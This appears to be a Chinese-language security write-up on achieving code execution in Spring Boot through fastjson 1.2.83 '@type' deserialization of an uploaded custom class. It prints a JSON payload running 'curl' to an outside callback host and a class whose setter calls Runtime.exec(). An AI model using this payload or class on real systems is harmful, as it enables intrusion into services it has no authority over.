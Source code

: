 在开始阅读之前请看前辈们的文章：https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks

fastjson后续的版本都做了黑名单，但是自己写的类是可以通过@type的方法反序列化的（以1.2.83为例）

有个前提条件：

必须知道java加载类的路径

在linux上执行
```
java -XshowSettings:properties -version
```
<img width="777" alt="image" src="https://github.com/user-attachments/assets/f6f841d6-6731-4cb3-942f-9bef844699ce">

所以说这个思路鸡肋，这猜出来的可能性太小了，当时我也没猜成功

攻击的路径就是，我们上传一个自己写的java编译jar包（得继承他反序列化的那个类），然后使用@type的方法反序列化这个类的时候会执行我们定义的代码

比如这种代码

```
package code;

import com.alibaba.fastjson.JSON;

public class test {
    public static void main(String[] args){
        String str="{\"@type\":\"code.user2\",\"name\":\"curl dd.chain2.eyes.sh\"}";
        System.out.println(str);
        System.out.println("Classpath: " + System.getProperty("java.class.path"));
        JSON.parseObject(str,user.class).getName();
    }
}
```

我们就得这样写一个user2

```
package code;

import java.io.IOException;

public class user2 extends user{
    private String name;
    public void setName(String name) throws IOException {
        Runtime.getRuntime().exec(name);
        this.name = name;
    }
    public String getName() {
        return this.name;
    }
}
```

将jar包放到类加载的目录下

当code.user2反序列化的时候就会执行Runtime.getRuntime().exec(name);

<img width="1083" alt="image" src="https://github.com/user-attachments/assets/6a5056cf-1be5-489f-8ec5-9a7d8e766598">

# 总结

以上就是这篇文章介绍的在SpringBoot环境中文件不能覆盖文件情况下rce的两种方法，经过这次的项目意识到了自己的不足以及和大佬的差距，还是得加油学习！！
